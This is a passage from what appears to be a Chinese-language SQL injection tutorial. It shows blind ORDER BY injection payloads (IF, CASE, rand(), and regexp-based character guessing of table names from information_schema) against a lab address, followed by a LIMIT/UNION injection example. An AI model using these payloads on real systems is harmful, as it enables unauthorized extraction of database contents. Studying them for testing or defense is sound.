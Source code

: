 |  6 | NULL |
|  0 | dasd |
|  5 | NULL |
|  9 | NULL |
+----+------+

```
order by rand(ascii(mid((select database()),1,1))>96)
```

### 步骤

- 判断

```
http://192.168.239.2:81/?order=IF(1=1,name,price) 通过name字段排序
http://192.168.239.2:81/?order=IF(1=2,name,price) 通过price字段排序
/?order=(CASE+WHEN+(1=1)+THEN+name+ELSE+price+END) 通过name字段排序
/?order=(CASE+WHEN+(1=1)+THEN+name+ELSE+price+END) 通过price字段排序
http://192.168.239.2:81/?order=IFNULL(NULL,price) 通过name字段排序
http://192.168.239.2:81/?order=IFNULL(NULL,name) 通过price字段排序
可以观测到排序的结果不一样

http://192.168.239.2:81/?order=rand(1=1) 
http://192.168.239.2:81/?order=rand(1=2)
```

```
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00))  正确
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误
```

**regexp 用前面的1和后面的返回结果比较**

>>https://www.cnblogs.com/icez/p/Mysql-Order-By-Injection-Summary.html


## limit 注入

### 不存在order by 关键字

```
select id from users limit 0,1
```

![](https://ae01.alicdn.com/kf/Hdd54f086a82b4fe9b8f442f083fae738k.jpg)

```
select id from users limit 0,1 union select username from users;
```
